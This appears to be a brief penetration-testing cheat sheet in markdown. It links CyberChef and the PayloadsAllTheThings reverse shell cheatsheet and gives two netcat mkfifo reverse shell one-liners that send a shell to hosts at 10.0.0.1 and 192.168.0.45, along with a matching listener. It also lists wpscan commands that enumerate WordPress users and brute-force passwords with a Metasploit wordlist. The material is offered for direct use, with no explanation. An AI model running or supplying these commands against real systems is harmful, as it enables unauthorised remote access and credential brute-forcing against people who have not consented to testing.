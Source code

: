 ## CyberChef

```bash
https://gchq.github.io/CyberChef/
```

## PayloadsAllTheThings

```bash
https://github.com/swisskyrepo/PayloadsAllTheThings

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

### ### Netcat OpenBsd

```shell
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.45 1234 >/tmp/f

sudo nc -lvp 1234
```

## wpscan

```bash
wpscan --url http://wordpress.local -e u --wp-content-dir wp-content

wpscan --url http://wordpress.local --passwords /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```



